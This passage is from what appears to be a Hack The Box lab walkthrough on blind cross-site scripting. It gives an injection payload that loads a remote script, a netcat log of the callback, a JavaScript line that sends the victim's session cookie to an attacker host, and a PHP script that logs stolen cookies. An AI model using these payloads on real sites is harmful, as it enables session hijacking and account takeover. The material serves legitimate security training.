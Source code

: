 Code: javascript

```javascript
"><script src=http://PWNIP:PWNPO/script.js></script>
```

![[HTB Solutions/CPTS/z. images/b175c2574e4a5fe33f2678c94fca4a3a_MD5.jpg]]

After clicking on the "Register" button, students will notice that the `nc` listener received a request for the "script.js" file:

```javascript
Ncat: Connection from 10.129.122.106.
Ncat: Connection from 10.129.122.106:32892.

GET /script.js HTTP/1.1
Host: 10.10.14.55:8080
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Before continuing, students need to make a directory under `/tmp/` to store the files that will be used hereafter.

Students now need to edit the "script.js" (which should be in the directory created in the `/tmp/` directory) file and have its contents to be JavaScript code that will grab the session cookie and send it to Pwnbox/`PWNIP`, such as the following one used in the module's section:

Code: javascript

```javascript
new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie;
```

In addition to "script.js", students need to save the PHP script "index.php" provided in the module's section which will split multiple cookies with a new line and write them to a file in case they are more than one:

Code: php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
